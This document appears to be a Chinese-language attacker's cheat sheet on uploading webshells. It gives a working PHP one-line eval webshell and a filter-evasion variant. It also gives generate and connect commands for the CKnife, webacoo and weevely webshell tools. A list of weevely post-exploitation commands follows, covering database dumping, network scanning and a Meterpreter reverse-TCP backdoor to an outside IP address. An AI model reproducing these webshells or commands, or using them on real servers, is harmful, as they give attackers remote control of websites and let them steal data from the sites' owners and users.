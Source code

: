 ### 上传 webshell

#### 一句话木马

基本型
```
<?php
  eval($_POST['a']);
?>
```

##### 变体

[这里](http://www.secist.com/archives/1947.html)是变形体的总结

1. 修改脚本语言标签

`<?php ?>` 为 `<script language="PHP"> </script>`

注意为`"`

#### webshell 工具

##### CKnife

这里是跨平台CKnife的 [Github](https://github.com/Chora10/Cknife) 地址

##### webcaoo

- 生成
```
webacoo -g -o a.php
```

- 连接
```
webacoo -t -u <url>
```

##### weevely

- 生成

```
weevely generate <password> <path>
```

- 连接

```
weevely <URL> <password> [cmd]
```

- 常用命令
```
:system_info 收集系统基本信息
:audit_filesystem 查找系统文件中的弱权限
:audit_suidsgid 查找有使用高级权限的文件
:shell_sh 执行SHELL命令
:backdoor_meterpreter 通过meterpreter连接
> backdoor_meterpreter -payload linux/x64/meterpreter/reverse_tcp -host 144.34.215.199 -port 4444
> msfconsole(LHOST 127.0.0.1)
:file_download 下载文件
:sql_console sql交互
:sql_dump 脱库
:net_scan 网络扫描

```
